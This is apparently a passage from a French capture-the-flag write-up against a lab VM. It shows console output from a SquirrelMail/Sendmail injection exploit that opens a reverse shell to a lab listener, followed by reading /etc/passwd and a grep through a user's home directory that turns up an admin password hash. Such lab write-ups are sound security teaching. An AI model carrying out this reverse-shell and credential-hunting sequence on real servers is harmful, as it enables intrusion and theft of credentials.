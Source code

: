 ```console
[?] Select payload

1 - File write (into /tmp/sqpoc)
2 - Remote Code Execution (with the uploaded smcnf-exp + phpsh)

[1-2] 2

Reverese shell IP: 192.168.56.102
Reverese shell PORT: 1234

[*] Injecting Sendmail command parameters
(23) Failed writing body

[*] Sending the email to trigger the vuln

[*] Waiting for shell on 192.168.56.102 port 1234
listening on [any] 1234 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 33524
bash: no job control in this shell

bash-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

bash-3.2$ uname -a
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux

bash-3.2$ tail -n 8 /etc/passwd
patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin

bash-3.2$
```

Un shell a été obtenu sur le serveur ! Le « mail-exploit » se situe quant à lui dans le dossier ```Sent``` d'Amy.

![Affichage de l'image CTF5_Squirrel3.png](images/CTF5_Squirrel3.png)

Pour reprendre la métaphore du cambrioleur, dès lors qu'il se sera introduit dans la villa luxueuse, son but est de rechercher minutieusement (ou, au contraire, le plus rapidement possible) des objets/biens de valeur. Dans le cas d'un serveur, une personne malveillante sera à la recherche de clés privées SSH, de données sensibles/personnelles/bancaires ou encore de mots de passe... 

```console
bash-3.2$ grep -rnw '/home/andy' -e 'password' 2>/dev/null
home/andy/public_html/data/pagesdata.txt:1:a:12:{s:8:"homepage";s:1:"1";s:10:"links_cats";a:4:{s:7:"sidebar";a:3:{i:0;i:1;i:1;i:4;i:2;i:12;}s:11:"other-pages";a:0:{}s:14:"top-navigation";a:2:{i:0;s:1:"1";i:1;s:1:"4";}s:12:"Footer-Right";a:2:{i:0;s:1:"1";i:1;s:1:"4";}}s:5:"slugs";a:3:{i:1;s:4:"home";i:4;s:7:"contact";i:12;s:12:"reverseshell";}s:6:"titles";a:3:{i:1;s:4:"Home";i:4;s:7:"Contact";i:12;s:13:"REVERSE-SHELL";}s:10:"slug_count";i:13;s:8:"settings";a:3:{s:19:"index-last-modified";i:1234513760;s:18:"def-template-areas";a:4:{i:0;s:12:"website name";i:2;s:14:"website slogan";i:3;s:16:"below navigation";i:4;s:16:"copyright notice";}s:18:"def-template-links";a:2:{i:0;s:14:"top-navigation";i:1;s:12:"Footer-Right";}}s:13:"active-tweaks";a:2:{i:0;s:7:"deutsch";i:1;s:19:"language-pack-tweak";}s:11:"lang-select";s:7:"english";s:6:"seourl";s:1:"0";s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";s:7:"version";s:4:"v_4f";}
/home/andy/public_html/data/libs/admin.login.lib.php:6:$admin_pass = getDetails('password');
```